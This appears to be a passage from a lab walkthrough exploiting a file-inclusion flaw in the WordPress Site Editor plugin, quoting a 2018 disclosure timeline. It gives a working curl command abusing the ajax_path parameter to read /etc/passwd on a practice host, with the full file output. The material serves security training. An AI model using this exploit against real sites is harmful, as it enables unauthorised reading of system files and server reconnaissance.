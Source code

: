 ```
18/01/2018: author replies and said he replied to our e-mail 8 days ago (could not find the aforementioned e-mail at all); author sends us "another" e-mail
19/01/2018: report sent; author says he will fix this issue "very soon"
31/01/2018: vendor contacted to ask about an approximate release date and if he needs us to postpone the disclosure; no reply
14/02/2018: WP Plugins team contacted; no reply
06/03/2018: vendor contacted; no reply
07/03/2018: vendor contacted; no reply
15/03/2018: public disclosure

** Credits **
Vulnerability discovered by Nicolas Buzy-Debat working at Orange Cyberdefense Singapore (CERT-LEXSI).

--
Best Regards,

Nicolas Buzy-Debat
Orange Cyberdefense Singapore (CERT-LEXSI)
```

So, in order to read `/etc/passwd`, we need to use curl in this way:

```
curl http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

And we get this output:

```
curl http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mrb3n:x:1000:1000:mrb3n,,,:/home/mrb3n:/bin/bash
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
erika:x:1001:1001::/home/erika:/bin/bash
```